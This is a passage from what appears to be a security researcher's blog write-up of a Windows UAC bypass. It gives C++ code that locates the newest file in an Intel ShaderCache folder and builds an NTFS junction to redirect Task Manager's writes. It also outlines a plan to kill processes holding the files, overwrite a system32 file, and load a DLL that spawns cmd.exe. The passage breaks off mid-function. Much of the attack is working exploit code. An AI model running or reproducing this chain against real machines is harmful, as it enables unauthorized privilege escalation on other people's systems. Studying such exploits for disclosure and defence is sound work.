 ```cpp
std::wstring GetMostRecentFile(const std::wstring& directoryPath) {
    namespace fs = std::filesystem;

    std::wstring mostRecentFile;
    fs::file_time_type latestTime;

    for (const auto& entry : fs::directory_iterator(directoryPath)) {
        if (!entry.is_regular_file()) continue;

        auto ftime = entry.last_write_time();
        if (mostRecentFile.empty() || ftime > latestTime) {
            latestTime = ftime;
            mostRecentFile = entry.path().filename().wstring();
        }
    }

    return mostRecentFile;
}

std::wstring dir = L"C:\\Users\\robbi\\AppData\\LocalLow\\Intel\\ShaderCache";
initialcheck = GetMostRecentFile(dir);
```

BAM!  At this point, I have all that I need to:

- Change permissions on all files to read-only and create a loop to identify and continue to kill all processes still using files in our ShaderCache directory, and then delete all files in the direcory
- Create a Junction
- Redirect the most recent file written to the directory by TaskManager to a destination we configure (I'll showcase that soon)
- Overwrite this file (I use copy /F myfile c:/windows/system32/destfile)
- Execute the file and bypass UAC!  Teaser alert:  I copy a DLL that executes cmd.exe

Let's continue shall we?  I'll go ahead and create the Junction, like so:

```cpp
void CreateJunction(LPCWSTR linkDir, LPCWSTR targetDir)
{
    HANDLE hFile;
    REPARSE_DATA_BUFFER* reparseData;
    DWORD bytesReturned;
    size_t targetLength;

    // Create the directory for the junction if it doesn't exist
    CreateDirectory(linkDir, NULL);

    // Open the directory
    hFile = CreateFile(linkDir, GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_FLAG_OPEN_REPARSE_POINT | FILE_FLAG_BACKUP_SEMANTICS, NULL);
    if (hFile == INVALID_HANDLE_VALUE) {
        std::cerr << "Failed to open directory: " << GetLastError() << std::endl;
        return;
    }

    targetLength = wcslen(targetDir) * sizeof(WCHAR);
    reparseData = (REPARSE_DATA_BUFFER*)malloc(REPARSE_DATA_BUFFER_HEADER_SIZE + targetLength + 12);
    if (!reparseData) {
        std::cerr << "Failed to allocate memory." << std::endl;
        CloseHandle(hFile);
        return;
    }

    memset(reparseData, 0, REPARSE_DATA_BUFFER_HEADER_SIZE + targetLength + 12);
```